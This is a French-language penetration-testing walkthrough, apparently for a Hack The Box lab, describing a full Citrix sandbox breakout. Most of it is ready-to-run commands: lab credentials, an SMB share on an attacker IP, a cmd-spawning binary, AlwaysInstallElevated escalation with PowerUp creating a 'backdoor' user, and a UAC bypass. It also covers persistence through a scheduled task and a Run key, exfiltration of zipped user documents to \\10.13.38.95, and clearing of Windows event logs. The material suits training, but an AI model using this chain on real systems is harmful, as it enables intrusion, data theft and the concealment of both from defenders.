

La chaîne d'attaque pour une évasion de bac à sable Citrix et l'escalade de privilèges associée suit généralement ce flux :



## Accès environnement restreint

L'accès initial s'effectue via l'interface Web Citrix.

- URL : `http://humongousretail.com/remote/`
- Identifiants : `pmorgan` / `Summer1Summer!`
- Domaine : `htb.local`

## Bypass restrictions navigation

Lorsque l'accès au système de fichiers est restreint via l'explorateur Windows, il est possible d'utiliser les boîtes de dialogue des applications autorisées (ex: **MS Paint**, **Notepad**).

> [!info]
> Le bypass via les boîtes de dialogue est une technique classique mais dépend fortement des GPO appliquées.

1. Ouvrir **MS Paint**.
2. Accéder à `File > Open`.
3. Dans le champ **File name**, saisir : `\\127.0.0.1\c$\Users\pmorgan`
4. Sélectionner **All Files** dans le type de fichier pour afficher le contenu.

## Transfert de fichiers SMB

Le transfert de fichiers entre la machine attaquante et la cible s'effectue via un partage **SMB**.

### Configuration côté attaquant
```bash
smbserver.py -smb2support share $(pwd)
```

### Accès côté cible
Via une boîte de dialogue (ex: **MS Paint**), accéder au partage : `\\10.13.38.95\share`.

> [!warning]
> Attention à l'antivirus lors de l'exécution de binaires personnalisés ou de scripts **PowerShell** téléchargés via **SMB**.

## Exécution de commandes et alternatives

### Exécutable personnalisé
Un binaire compilé peut lancer un interpréteur de commandes :
```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

### Alternatives explorateur et registre
Pour contourner les restrictions GPO sur **explorer.exe** ou **regedit.exe**, utiliser des outils portables :
- **Explorer++** ou **Q-Dir** pour la gestion de fichiers.
- **Simpleregedit**, **Uberregedit** ou **SmallRegistryEditor** pour la manipulation du registre.

### Manipulation de raccourcis
Modifier un fichier `.lnk` existant :
1. Clic droit > **Properties**.
2. Modifier le champ **Target** : `C:\Windows\System32\cmd.exe`.

## Escalade de privilèges (AlwaysInstallElevated)

Cette technique permet d'exécuter des fichiers `.msi` avec des privilèges **SYSTEM**.

### Vérification du registre
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> [!danger]
> L'utilisation de **AlwaysInstallElevated** est une vulnérabilité critique qui nécessite une vérification sur les deux ruches (HKCU et HKLM). Si la valeur est **0x1** pour les deux, le système est vulnérable.

### Exploitation
```powershell
powershell -ep bypass
cd c:\users\public
xcopy \\10.13.38.95\share\PowerUp.ps1 .
xcopy \\10.13.38.95\share\Bypass-UAC.ps1 .
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```

Une fois le fichier `.msi` généré sur le bureau, l'exécuter pour créer un utilisateur `backdoor`.

## Bypass UAC

Pour obtenir une session avec des privilèges élevés, le bypass **UAC** est souvent nécessaire, en lien avec les techniques de **Windows Privilege Escalation**.

### Utilisation de Bypass-UAC.ps1
```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

> [!warning]
> Le bypass **UAC** via **Sysprep** est spécifique à certaines versions de Windows et peut échouer sur des systèmes patchés.

### Vérification des privilèges
```cmd
whoami /all
whoami /priv
```

## Reconnaissance interne post-breakout

Une fois le breakout réussi, il est crucial d'identifier les vecteurs de mouvement latéral.

```powershell
# Énumération des sessions actives et connexions réseau
net sessions
netstat -ano | findstr ESTABLISHED

# Énumération des groupes locaux et utilisateurs
net localgroup administrators
net user /domain

# Recherche de fichiers sensibles (scripts, config, mots de passe)
dir /s /b *.config | findstr /i "web.config"
findstr /si password *.xml *.config
```

## Persistance

Pour maintenir l'accès après un redémarrage de la session Citrix, installer une persistance légère.

```powershell
# Création d'une tâche planifiée (nécessite privilèges)
schtasks /create /tn "Updater" /tr "C:\Users\Public\shell.exe" /sc onlogon /ru SYSTEM

# Ajout d'une clé de registre Run
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\Users\Public\shell.exe"
```

## Exfiltration de données

Le transfert de données exfiltrées doit être discret, idéalement via le canal **SMB** déjà établi ou **HTTP/S**.

```powershell
# Compression des données avant transfert
powershell Compress-Archive -Path C:\Users\pmorgan\Documents\Sensitive -DestinationPath C:\Users\Public\data.zip

# Transfert vers le partage attaquant
copy C:\Users\Public\data.zip \\10.13.38.95\share\exfil\
```

## Nettoyage des traces (Log clearing)

Pour minimiser les risques de détection, supprimer les artefacts créés.

```powershell
# Suppression des fichiers temporaires et outils
del /f /q C:\Users\Public\PowerUp.ps1
del /f /q C:\Users\Public\Bypass-UAC.ps1
del /f /q C:\Users\Public\data.zip

# Effacement des logs d'événements (nécessite privilèges élevés)
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

## Récapitulatif des outils

| Outil | Description |
| :--- | :--- |
| **smbserver.py** | Serveur **SMB** depuis l'attaquant |
| **Explorer++** | Explorateur de fichiers alternatif |
| **PowerUp.ps1** | Détection et exploitation de vulnérabilités Windows |
| **Bypass-UAC.ps1** | Bypass des prompts **UAC** |
| **SmallRegistryEditor** | Éditeur de registre léger sans restriction |
| **pwn.exe** | Shell personnalisé (`system("cmd")`) |
| **.lnk** | Raccourci Windows modifiable |
| **evil.bat** | Script batch déclencheur de **cmd** |

Ces techniques s'inscrivent dans une méthodologie **Living off the Land Binaries (LoLBins)** pour maintenir la discrétion lors de la phase de post-exploitation.

**Liens associés :**
- **Windows Privilege Escalation**
- **SMB Server Setup**
- **UAC Bypass Techniques**
- **Living off the Land Binaries (LoLBins)**